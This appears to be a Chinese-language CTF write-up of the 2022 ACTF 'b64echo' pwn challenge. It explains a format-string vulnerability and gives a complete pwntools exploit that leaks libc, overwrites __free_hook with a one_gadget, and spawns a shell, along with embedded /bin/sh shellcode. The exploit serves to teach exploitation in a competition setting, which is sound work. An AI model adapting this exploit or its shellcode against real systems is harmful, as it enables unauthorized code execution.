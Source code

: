 ```yaml
---
title: 2022 ACTF 部分pwn Writeup
date: 2022-06-25 16:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=27/
pin: false
---
```


## b64echo

![image-20220625174651216](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174651216.png)

题目开辟了一个堆块记录一些基值，实现base64解密，漏洞点在格式化字符串，存在循环的格式化字符串漏洞

![image-20220625174706714](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174706714.png)

结束时存在一个free操作，考虑用格式化字符串泄露地址，同时修改free_hook为one_gadget

![image-20220625174748511](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174748511.png)

难点在于会检验解密后的字符串中是否有`%`，一旦检验到`%`就exit，但并没有对字符串最后一个字符进行校验，导致`%`可以出现在末尾，通过多次输入实现最后需要的payload。

![image-20220625175007793](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625175007793.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
import os
import base64
context.log_level = 'debug'
context.arch='amd64'
p = process('./b64echo')
p = remote("121.36.255.51","9999")
elf = ELF("b64echo")
libc = elf.libc
#elf=ELF('./pwn')

def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

def decode(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    # dbg()
    p.send(con)

def decode1(con):
    length = len(con)
    sla("Tell me the length of your base64 input: ",length)
    dbg()
    p.send(con)

# ---------------------------------
print p.recv()
aaa = raw_input()
p.send(aaa)

decode(base64.b64encode(' 81$p'))
decode('JQ==')

libc_base = int(p.recv(14),16)-0x21C87
lg('libc_base')
one = libc_base + 0x10a2fc
free_hook = libc_base + libc.sym['__free_hook']
exit_hook = 0x61bf60+libc_base
lg('one')
lg('free_hook')

#---------------------------------------------
onel = one&0xffff
oneh = (one>>16)&0xffff
onem = (one>>32)&0xffff
lg('onel')
lg('oneh')
lg('onem')
print len(str(onel))
print len(str(oneh))

pl1 = '%'
pl2 = len(pl1)*'\x00'+str(onel)+'c%'
pl3 = len(pl2)*'\x00'+'50$hn%'
pl4 = len(pl3)*'\x00'+str(oneh-onel)+'c%'
pl5 = len(pl4)*'\x00'+'51$hn'
pl5 = pl5.ljust(0x20,'x')+p64(free_hook)+p64(free_hook+2)


# sleep(0.1)
decode(base64.b64encode((len(str(onem))+3)*' '+'17$hnxhh')+p64(free_hook+4))# 
decode(base64.b64encode(' '+str(onem)+'c'+'%'))
decode(base64.b64encode('%'))


decode(base64.b64encode(pl5))
decode(base64.b64encode(pl4))
decode(base64.b64encode(pl3))
decode(base64.b64encode(pl2))
decode(base64.b64encode(pl1))

p.interactive()

'''
0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f302 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a2fc execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
```

![image-20220625174610057](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220625174610057.png)